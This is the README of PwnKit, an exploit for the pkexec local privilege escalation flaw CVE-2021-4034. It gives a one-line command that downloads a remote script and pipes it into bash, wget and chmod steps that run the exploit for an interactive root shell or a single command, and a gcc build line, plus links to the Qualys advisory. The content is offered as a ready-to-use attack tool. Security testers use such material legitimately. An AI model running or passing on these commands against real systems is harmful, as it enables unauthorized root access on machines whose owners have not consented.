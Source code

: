 # PwnKit

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
bash -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

### Manual

```bash
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

### Build

```bash
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

## Example

### Vulnerable

![](./imgs/exploit.png)

### Patched

![](./imgs/patched.png)

## Technical Details

- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

## References

- https://github.com/arthepsy/CVE-2021-4034/